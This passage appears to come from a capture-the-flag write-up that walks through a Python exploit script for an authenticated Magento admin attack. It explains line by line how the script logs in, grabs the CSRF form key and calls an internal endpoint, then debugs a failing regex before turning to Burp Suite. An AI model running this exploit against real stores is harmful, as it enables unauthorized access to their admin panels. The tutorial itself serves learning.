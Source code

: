 - This error made my head spin. So I had to make some researches.
- Let's explain The exploit source code.

```python

br.select_form(predicate=lambda f: f.attrs.get('id') == 'loginForm')
# Selects the login form by targeting the one with id="loginForm".


br.form.find_control(name='login[username]', nr=0).value = username      
br.form.find_control(name='login[password]', nr=0).value = password     
# Fills in the login credentials by assigning the username and password variables to the corresponding input fields.


br.method = "POST"
request = br.submit()
# Sets the form method to POST and submits the login request.


content = request.read()
# Reads and stores the response body into the content variable for further processing.


url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
# Extracts the ajaxBlockUrl value from the page's source using a regular expression and stores it in the url variable.


key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)
# Similarly, grabs the FORM_KEY (used for CSRF protection in Magento) from the page source.


request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
# Sends a POST request to a specific Magento endpoint, including the form_key in the payload to pass CSRF validation.


tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)
# Searches the response for a src= attribute containing a URL and extracts it.
# Here’s where things break:
# The script tries to find the src= attribute in the response, but it doesn't exist — so the regex search fails. That means tunnel ends up being None, and when we call .group(1), it throws an error because there’s nothing to extract.
```
- Now let’s use Burp Suite to intercept the requests and confirm what we observed earlier. First we need to set the proxy by uncommenting the following line:
